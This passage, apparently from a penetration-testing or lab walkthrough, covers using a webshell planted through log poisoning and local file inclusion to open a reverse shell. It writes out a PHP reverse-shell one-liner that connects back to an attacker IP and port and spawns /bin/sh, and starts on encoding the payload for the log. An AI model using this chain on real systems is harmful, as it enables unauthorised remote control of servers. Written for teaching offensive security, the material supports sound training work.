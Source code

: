 When we do this, we see the output as:

```bash
www-data
```

![log](images/15.png)

This indicates that our webshell has successfully launched and we can now use commands such as ls, id, uname -a, etc.

### 🐚 2.9 Preparing a Reverse Shell with PHP
> After we've tested that the `whoami` command works via the webshell embedded in the access.log,
the next step is to launch a Reverse Shell to remotely take control of the target machine.

🔧 Tools Used:
We'll be using Pentestmonkey. This is a website that includes cheat sheets for Web Shell and Reverse Shell.
[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

🧾 Reverse Shell Code (PHP):

24. Copy the payload:

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![shell](images/16.png)

- `fsockopen()` opens a TCP connection to the specified IP/Port.
- `exec()` will launch an interactive shell `(/bin/sh -i)`.
- When this code is embedded in the log and loaded via LFI, the server will connect back to your machine.

⚠️ Note:
- Before copying the code from the web, change the IP address (`10.0.0.1`) and Port (`1234`) to your actual machine.

### 🧬 2.10 Convert the Payload to Embed in the Log
> After the reverse shell command is created, the next step is to encode the payload so that it can be embedded safely and syntactically in the log file.
